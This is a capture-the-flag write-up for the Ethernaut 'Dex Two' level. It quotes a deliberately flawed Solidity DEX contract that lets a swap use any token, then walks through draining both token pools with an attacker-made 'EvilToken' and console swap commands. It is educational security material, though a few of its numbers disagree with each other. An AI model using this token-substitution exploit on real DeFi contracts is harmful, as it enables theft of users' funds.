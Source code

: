 # Level 23: Dex

This is the level 23 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites
- [ERC20 Token Standard](https://eips.ethereum.org/EIPS/eip-20)

## Hack

Given contract:
```solidity
contract DexTwo  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_amount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_amount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(spender, amount);
    SwappableTokenTwo(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

`player` has to drain all of `token1` and `token2`.

The vulnerability here arises from `swap` method which does not check that the swap is necessarily between `token1` and `token2`. We'll exploit this.

Let's deploy a token - `EvilToken` in Remix, with initial supply of 400, all given to `msg.sender` which would be the `player`:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract EvilToken is ERC20 {
    constructor(uint256 initialSupply) ERC20("EvilToken", "EVL") {
        _mint(msg.sender, initialSupply);
    }
}
```
We're going to exchange `EVL` token for `token1` and `token2` in such a way to drain both from `DexTwo`. Initially both `token1` and `token2` is 100. Let's send 100 of `EVL` to `DexTwo` using `EvilToken`'s `transfer`. So, that price ratio in `DexTwo` between `EVL` and `token1` is 1:1. Same ratio goes for `token2`.

Also, allow `DexTwo` to transact 300 (100 for `token1` and 200 for `token2` exchange) of our `EVL` tokens so that it can swap `EVL` tokens. This can be done by `approve` method of `EvilToken`, passing `contract.address` and `200` as params.

Alright at this point `DexTwo` has 100 of each - `token1`, `token2` and `EVL`. And `player` has 300 of `EVL`.
```
      DEX             |      player  
token1 - token2 - EVL | token1 - token2 - EVL
---------------------------------------------
  100     100     100 |   10      10      300
```

Get token addresses:
```javascript
evlToken = '<EVL-token-address>'
t1 = await contract.token1()
t2 = await contract.token2()
```

Swap 100 of `player`'s `EVL` with `token1`:
```javascript
await contract.swap(evlToken, t1, 100)
```

This would drain all of `token1` from `DexTwo`. Verify by:
```javascript
await contract.balanceOf(t1, instance).then(v => v.toString())

// Output: '0'
```

Updated balances:
```
      DEX             |      player  
token1 - token2 - EVL | token1 - token2 - EVL
---------------------------------------------
  100     100     100 |   10      10      300
  0       100     200 |   110     10      200
```

Now, according to `get_swap_amount` method, to get all 100 of `token2` in exchange we need 200 of `EVL`. Swap accordingly:
```javascript
await contract.swap(evlToken, t2, 200)
```

And `token2` is drained too! Verify by:
```javascript
await contract.balanceOf(t2, instance).then(v => v.toString())

// Output: '0'
```

Finally:
```
      DEX             |      player  
token1 - token2 - EVL | token1 - token2 - EVL
---------------------------------------------
  100     100     100 |   10      10      300
  0       100     200 |   110     10      200
  0       0       400 |   110     110     0
```


Level passed!

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

